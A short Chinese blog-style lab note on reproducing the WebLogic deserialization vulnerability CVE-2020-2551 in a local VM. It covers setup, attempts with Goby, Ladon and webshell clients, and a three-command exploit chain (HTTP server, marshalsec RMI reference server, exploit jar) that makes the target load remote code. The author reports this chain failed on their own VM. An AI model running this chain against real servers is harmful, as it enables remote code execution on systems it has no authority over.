 
cve-2020-2551属于weblogic的反序列化漏洞


## 漏洞环境

之前测试的时候是使用docker一键生成的，对搭建的过程了解的不多。这次再win10的虚拟级中搭建一次weblogic10.3.6。

简单记录
下载oracle的工具与要登录，嫌麻烦没法注册账号，就去网上找了一个公共的账号使用。
java的JDK环境不能太高使用的是1.7。刚开始使用的是1.8的发现不能启动10.3的weblogic服务。
启动服务需要输入密码，再次启动服务使用weblogic的快速启动的cmd。

## 漏洞利用

尝试了好几种利用方式，看了一部分文章。

首先尝试使用goby工具一键测试。没有问题。

然后使用了k8哥哥的Ladon工具一键poc与exp。就是执行命令起来有点麻烦，每次都要启动一个新的命令。gui的使用方式看了好几遍才发现怎么用的，它所有的插件都在扫描中。

过程中使用了菜刀、哥斯拉、蚁剑还有一些其他的可视化工具发现不行。说密码不对。头大。

然后使用github上提供的exp试了一下。

```
python -m SimpleHTTPServer 80
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar  marshalsec.jndi.RMIRefServer "http://192.168.152.128/#exp" 1099
java -jar CVE-2020-2551.jar 192.168.152.128 7001 rmi://192.168.152.128:1099/exp
```
没有成功，我本地的java与靶机中的java版本不一致。


## 参考链接

https://xz.aliyun.com/t/7498
https://blog.csdn.net/weixin_44677409/article/details/106493733
https://blog.csdn.net/caiqiiqi/article/details/104509330?utm_medium=distribute.pc_relevant.none-task-blog-baidulandingword-2&spm=1001.2101.3001.4242


















